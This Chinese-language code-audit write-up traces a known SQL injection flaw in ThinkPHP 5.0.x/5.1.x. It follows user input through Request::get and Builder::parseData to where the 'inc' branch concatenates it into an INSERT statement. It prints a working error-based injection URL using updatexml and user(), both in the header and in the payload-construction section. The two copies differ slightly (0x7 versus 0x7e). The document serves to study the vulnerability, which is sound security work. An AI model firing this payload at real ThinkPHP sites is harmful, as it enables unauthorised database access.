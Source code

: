 # ThinkPHP5之SQLI审计分析（一）

**Time：8-31**

**影响版本：5.0.13<=ThinkPHP<=5.0.15、 5.1.0<=ThinkPHP<=5.1.5**

**Payload：**

```
/public/index.php/index/index?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1
```

这是一篇由已知漏洞寻找利用过程的文章，跟着**[参考链接](https://github.com/hongriSec/PHP-Audit-Labs/blob/master/Part2/ThinkPHP5/ThinkPHP5%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B9%8BSQL%E6%B3%A8%E5%85%A51.md)**学习分析，以下是收获记录。

---

### 0x00 测试代码做了什么？

```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $username = request()->get('username/a');
        db('users')->insert(['username' => $username]);
        return 'Update success';
    }
}
```

index控制器是默认的TP框架程序的入口，该测试代码在index控制器下新建了一个index方法（实际上本来的index方法是tp的欢迎页面，这里是覆盖替换掉原来的）。逐行来看该测试代码：获取`get`请求的`username`参数->进行数据库的`insert`操作->输出`Update success`。

其中，`username/a`不明白是什么意思，就跟进`get`方法去看一下它怎么处理的：

**thinkphp/library/think/Request.php**

![image-20210831141218443](ThinkPHP5之SQLI审计分析_images/image-20210831141218443.png)

**第676行**可以看到`$name`允许是一个数组，但是测试代码中传入的是`username/a`字符串。**674行**以`GET`方式接受的数据最后进入`input`方法，接着看下做了如何处理：

![image-20210831142527124](ThinkPHP5之SQLI审计分析_images/image-20210831142527124.png)

这里看到将`$name`参数以`/`分割为了`$name`和`$type`,而`$type`接下来被用到的地方是强制类型转换：

![image-20210831142728246](ThinkPHP5之SQLI审计分析_images/image-20210831142728246.png)

到这里就知道了`a`是一种修饰符，查看[开发手册](https://www.kancloud.cn/manual/thinkphp5/118044)得知所有的定义好的修饰符。

![image-20210831142915046](ThinkPHP5之SQLI审计分析_images/image-20210831142915046.png)

同样的下断点看也可以证明`$username`最后其实是一个数组：（并不是因为payload是数组形式，而是由/a修饰符决定的）

![image-20210831144306567](ThinkPHP5之SQLI审计分析_images/image-20210831144306567.png)

然后接下来就进入到执行数据库插入操作的`insert`方法了。（**9行**这条代码的意思是向users表的username字段插入$username）

### 0x01 调用链分析

现在已知`$username`是一个数组，传入`insert`方法。跟进`insert`跳到：

**thinkphp/library/think/db/Query.php**

![image-20210831145058961](ThinkPHP5之SQLI审计分析_images/image-20210831145058961.png)

发现其内又调用了`$this->builder->insert`方法，且**注释**是生成SQL语句。文件内搜索看看`builder`是如何定义的：

![image-20210831151249888](ThinkPHP5之SQLI审计分析_images/image-20210831151249888.png)

为了方便，直接在**130行**下断点，得到了`$class`的值：（这里可以随便传个参数比如username=1进去，因为主要是为了知道调用的哪里）

![image-20210831151553320](ThinkPHP5之SQLI审计分析_images/image-20210831151553320.png)

所以，`$this->builder`实际上是一个`Mysql`类的对象，而`Mysql`类**(thinkphp/library/think/db/builder/Mysql.php)**是继承于`Builder`类的，且`Mysql`类里面并没有实现`insert`方法，所以最终调用的还是`Builder`类的`insert`方法:

**thinkphp/library/think/db/Builder.php**

![image-20210831151949586](ThinkPHP5之SQLI审计分析_images/image-20210831151949586.png)

经过上述跟进代码分析，最终得知，入口调用的`insert`方法最终调用的实际上是调用的`Builder->insert()`方法来生成SQL语句。接下来应该由内向外分析看看有没有什么有效的过滤措施。

### 0x02 分析最内层调用的处理

分析这个*生成SQL语句*（之前有个注释）的方法具体做了什么，跟进它的`parseData`方法：（**86行**）

```php
	protected function parseData($data, $options)
    {
        if (empty($data)) {
            return [];
        }

        // 获取绑定信息
        $bind = $this->query->getFieldsBind($options['table']);
        if ('*' == $options['field']) {
            $fields = array_keys($bind);
        } else {
            $fields = $options['field'];
        }

        $result = [];
        foreach ($data as $key => $val) {
            $item = $this->parseKey($key, $options);
            if (is_object($val) && method_exists($val, '__toString')) {
                // 对象数据写入
                $val = $val->__toString();
            }
            if (false === strpos($key, '.') && !in_array($key, $fields, true)) {
                if ($options['strict']) {
                    throw new Exception('fields not exists:[' . $key . ']');
                }
            } elseif (is_null($val)) {
                $result[$item] = 'NULL';
            } elseif (is_array($val) && !empty($val)) {
                switch ($val[0]) {
                    case 'exp':
                        $result[$item] = $val[1];
                        break;
                    case 'inc':
                        $result[$item] = $this->parseKey($val[1]) . '+' . floatval($val[2]);
                        break;
                    case 'dec':
                        $result[$item] = $this->parseKey($val[1]) . '-' . floatval($val[2]);
                        break;
                }
            } elseif (is_scalar($val)) {
                // 过滤非标量数据
                if (0 === strpos($val, ':') && $this->query->isBind(substr($val, 1))) {
                    $result[$item] = $val;
                } else {
                    $key = str_replace('.', '_', $key);
                    $this->query->bind('data__' . $key, $val, isset($bind[$key]) ? $bind[$key] : PDO::PARAM_STR);
                    $result[$item] = ':data__' . $key;
                }
            }
        }
        return $result;
    }
```

这个函数最后return了`$result`变量，那么我们就看看函数体内是怎样处理`$result`变量的：

①首先，这个函数的第一个参数是`$data`，来源于最开始`Query.php`中`insert`方法的2084行:

![image-20210831153935999](ThinkPHP5之SQLI审计分析_images/image-20210831153935999.png)

进行了一个数组合并操作把合并的结果再赋给`$data`，那么合并后的`$data`也是一个数组，且有一个键的键名为username（因为`$data`本来是`['username' =>$username]`，在入口的**第9行**）。

②然后，这个函数在**100行**初始化了`$result`变量，然后**101行**用foreach分离`$data`为`$key`和`$val`，`$key`变成了`$item`:

![image-20210831154805124](ThinkPHP5之SQLI审计分析_images/image-20210831154805124.png)

此时的`$val`是可控的、`get`方式传入的、等价于`$username`。**第113行**判断如果`$val`是个数组，进入switch分支

![image-20210831155545442](ThinkPHP5之SQLI审计分析_images/image-20210831155545442.png)

`$val[0]`也就是payload中的`username[0]`根据不同的值进入不同的三个分支，但是可以看到每个分支的处理都是直接拼接`$val[1]`和`$val[2]` 赋给 `$result[$item]`，也就是`$result['username']`，唯一调用的`parseKey`并没有什么作用：

![image-20210831160018355](ThinkPHP5之SQLI审计分析_images/image-20210831160018355.png)

③最后，返回`$result` (也就是赋值给`Query.php`中`insert`方法2084行的`$data`)，至此`parseData`的主要功能就分析的差不多了。

接着看`Builder`类的`insert`方法在调用了`parseData`之后又干了什么：

![image-20210831160452527](ThinkPHP5之SQLI审计分析_images/image-20210831160452527.png)

从`$data`中取出键值分别赋值给代表字段名和字段值的变量，简单的替换**29-33行**定义的SQL语句模型，返回生成好的SQL语句。

![image-20210831162144504](ThinkPHP5之SQLI审计分析_images/image-20210831162144504.png)

### 0x03 分析上一层调用的处理

![image-20210831162649927](ThinkPHP5之SQLI审计分析_images/image-20210831162649927.png)

之后还有两处调用函数，即`getBind()`和`getRealSql()`但是跟进去看了下都没有任何数据清洗，仅仅是数据处理的一些解析操作。然后就到了`execute()`去执行SQL语句了。至此，整个处理流程基本上就分析完了，满足SQL注入漏洞的前提条件：①参数用户可控②参数直接拼接到SQL语句中，无任何有效过滤。

### 0x04 Payload构造

漏洞的利用点还是在最内层调用的`parseData`方法中，根据刚才的分析已经知道的$val实际上就是传入的username，那么`$val[0]`、`$val[1]`、`$val[2]`都是可控的，只要传入满足条件的值即可，因为是insert操作，所以选择用报错函数进行注入：

构造`username[0]=inc`，进入inc分支。

构造`username[1]=updatexml(1,concat(0x7e,user(),0x7e),1)`，实际的报错语句。

构造`username[2]=1`，只是为了补齐数组元素个数。

再加上index控制器的index方法的访问路径`/public/index.php/index/index/`

最后连起来就是

```
/public/index.php/index/index/?username[0]=inc&username[1]=updatexml(1,concat(0x7e,user(),0x7e),1)&username[2]=1
```

本意是代码审计，就不考虑再如何利用了。

